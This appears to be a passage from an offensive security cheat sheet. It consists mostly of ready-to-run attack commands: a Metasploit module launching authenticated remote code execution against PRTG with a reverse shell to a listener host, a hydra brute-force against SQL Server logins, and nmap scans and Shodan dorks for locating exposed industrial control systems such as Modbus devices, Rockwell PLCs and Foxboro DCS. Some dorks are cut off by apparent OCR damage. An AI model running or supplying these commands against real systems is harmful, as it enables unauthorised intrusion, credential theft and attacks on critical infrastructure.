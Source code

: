 ```
msfconsole -q
use exploit/windows/http/prtg_authenticated_rce
set RHOST 192.168.1.10
set RPORT 80
set LHOST 192.168.1.20
set LPORT 4444
set TARGETURI /
run
```

## SQL

Enumerate

```
nmap -sS -p 1433 -oA outputfile 192.168.1.1/24
```

Crack

```
hydra -L users.txt -P passwords.txt -vV <target_ip> sql-server
```


## industrial control systems(ics)

Reconnaissance

```
nmap -p 102,502 -sV <target_ip>
```

This shodan dork searches for Modbus servers, which are commonly used in ICS systems.

```
"port:502 modbus"
```

and


```
"port:44818"
```

This dork searches for PLCs (Programmable Logic Controllers) that use the proprietary Rockwell Automation protocol.


```
"port:1911
```

This dork searches for the Foxboro I/A Series Distributed Control Systems (DCS), which are used in various industries such as oil and gas, chemical and power generation.


```
"port:102
```
